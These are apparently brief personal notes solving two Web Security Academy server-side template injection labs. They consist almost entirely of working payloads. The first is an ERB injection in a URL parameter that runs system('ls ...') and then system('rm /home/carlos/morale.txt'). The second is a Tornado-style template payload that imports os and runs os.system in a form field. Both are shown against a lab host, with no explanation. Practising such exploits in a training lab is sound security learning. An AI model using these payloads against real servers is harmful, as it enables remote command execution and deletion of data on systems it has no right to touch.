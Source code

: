 # 1 

check vulnerability : 

	<%= 7 * 7 %>

	https://ac401fee1f46529fc0c043fa00540064.web-security-academy.net/?message=<%= 7 * 7 %>

check system files with ruby command

	https://ac401fee1f46529fc0c043fa00540064.web-security-academy.net/?message=<%= system("ls /home/carlos/morale.txt") %>
	
delete file

	https://ac401fee1f46529fc0c043fa00540064.web-security-academy.net/?message=<%= system("rm /home/carlos/morale.txt") %>
	
# 2 

check is template vulnerable

	}}{{7*7}}

exploit vulnerability

	blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('ls%20/home/carlos/morale.txt')&csrf=JS1JUMr6YJSFQjEYaIgvIJ6dxlmdbYgR